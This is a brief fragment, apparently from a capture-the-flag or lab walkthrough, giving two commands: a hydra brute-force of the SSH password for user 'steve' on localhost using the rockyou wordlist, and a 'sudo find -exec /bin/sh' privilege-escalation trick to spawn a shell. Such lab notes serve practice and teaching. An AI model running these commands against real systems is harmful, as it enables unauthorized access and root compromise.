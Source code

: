Crack password:
```sh
hydra -l steve -P /usr/share/wordlists/rockyou.txt 127.0.0.1 ssh
```

Privileges escalation:
```Sh
sudo find . -exec /bin/sh \; -quit
```
